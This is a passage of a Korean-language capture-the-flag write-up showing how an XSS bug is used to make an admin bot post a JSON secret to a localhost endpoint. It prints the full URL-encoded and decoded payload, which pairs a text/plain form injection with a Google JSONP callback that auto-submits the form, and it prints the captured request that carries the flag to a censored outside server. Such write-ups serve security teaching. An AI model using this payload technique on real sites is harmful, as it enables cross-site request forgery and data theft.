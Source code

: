 It's awesome. :clap:

---

**Get the flag**

이제 XSS가 가능하니, admin이 로컬호스트에 json형식으로 적당한 `secret`을 `article`에 넘겨주게만 하면 `flag`를 획득할 수 있다.

다음의 request를 전송하면 flag를 서버로 부터 받아올 수 있다.

[request]

```http
POST /url HTTP/1.1
(blahblah headers)

url=http%3A%2F%2F127.0.0.1%3A8080%2Farticle%3Ftime%3D%3Cform+method%3Dpost+enctype%3Dtext%2Fplain%3E%3Cinput+name%3D%27%7B%22secret%22%3A%22No+one+will+never+ever+access+this+beauty%22%2C%22url%22%3A%22(censored)%3A8000%22%2C%22a%22%3A%22%27+value%3D%27%22%7D%27%3E%3C%2Fform%3E%3Cscript+src%3Dhttps%3A%2F%2Fww%26unit%3Dw.google.com%2Fjsapi%3Fcallback%3Ddocument.forms%5B0%5D.submit%3E%3C%2Fscript%3E
```

```html
[URL decoded]
http://127.0.0.1:8080/article?time=<form method=post enctype=text/plain><input name='{"secret":"No one will never ever access this beauty","url":"(censored)","a":"' value='"}'></form><script src=https://ww&unit=w.google.com/jsapi?callback=document.forms[0].submit></script>
```



[response]

```http
POST / HTTP/1.1
Host: (censored)
User-Agent: python-requests/2.21.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 81
Content-Type: application/x-www-form-urlencoded

flg=INSA%7Bf330a6678b14df79b05f63040537b384e4c87c87525de8d396b43250988bdfaa%7D%0A
```

:triangular_flag_on_post:

